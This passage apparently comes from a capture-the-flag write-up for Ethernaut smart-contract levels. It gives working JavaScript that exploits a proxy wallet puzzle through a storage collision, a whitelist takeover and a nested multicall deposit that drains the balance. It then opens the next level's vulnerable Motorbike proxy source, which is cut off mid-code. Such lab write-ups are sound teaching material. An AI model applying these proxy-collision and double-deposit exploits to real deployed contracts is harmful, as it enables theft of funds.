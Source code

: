 > #### Solution:
> - Call the `proposeNewAdmin` of the `ProxyPuzzle` contract.
> ```js
> await sendTransaction({
>     from: player,
>     to: instance,
>     data: web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)") + web3.eth.abi.encodeParameter("address", player).substring(2)
> });
> ```
> - We have to whitelist ourself.
> ```js
> await contract.addToWhitelist(player);
> ```
> 
> - We need to make the instance balance to 0.
> ```js
> var {data: deposit} = await contract.deposit.request();
> var {data: multiDeposit} = await contract.multicall.request([deposit]);
> var {data: execute} = await contract.execute.request(player, toWei("0.002"), "0x");
> arr = [deposit, multiDeposit, execute];
> await sendTransaction({
>   from: player,
>     to: instance,
>     value: toWei("0.001"),
>     data: web3.eth.abi.encodeFunctionSignature("multicall(bytes[])") + web3.eth.abi.encodeParameter("bytes[]", arr).substring(2)
> });
> ```
> - Now we can call the `setMaxBalance` to set the `maxBalance`.
> ```js
> await contract.setMaxBalance(player);
> ```

<hr>

## 25 Motorbike
We need to `selfdestruct` its engine contract.
#### Source:
```sol
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
```